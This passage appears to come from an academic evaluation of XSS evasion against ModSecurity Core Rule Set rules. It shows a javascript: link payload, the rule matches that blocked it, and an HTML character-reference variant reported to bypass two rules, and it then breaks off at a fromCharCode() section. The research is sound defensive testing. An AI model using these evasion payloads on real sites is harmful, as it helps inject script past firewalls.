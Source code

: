 \begin{lstlisting}[style=ruleStyle, language=XML, caption={<a\ href=javascript:alert('a')>ClickMeFor\$</a> blocked}, label={lst:storedxssinjblocked}]
<payload><a href=javascript:alert('a')>ClickMeFor$</a></payload>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "259"] [id "941170"]<fileDetails>
<MatchedData>"javascript:alert('a')>ClickMeFor$<"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "357"] [id "941210"]<fileDetails>
<MatchedData>"javascript:a"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}

The evasion technique stated under Section~\ref{sec:htmlcharreftech} proposes using \acrshort{html} Character References to obscure a payload. 
On escaping the first \verb|a| in \verb|javascript:| using the \acrshort{html} Hex Character Reference, the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

A request sent with this payload bypassed the rules with ids \verb|941170| (NoScript XSS InjectionChecker: Attribute Injection) and \verb|941210|(IE XSS Filters - Attack Detected).

As this result is promising, another iteration of applying this technique has been used during the multi iteration evaluation. The results are stated unter Section~\ref{sec:doublehtmlcharref}. This evasion technique is considered effective against the evaluted firewall configuration.

\subsubsection{fromCharCode()}
\label{sec:charcodesingleiter}
The example payload given under Section~\ref{sec:fromcharcodetech}:

\begin{lstlisting}[style=basicStyle, language=Python]
alert('xss')
\end{lstlisting}


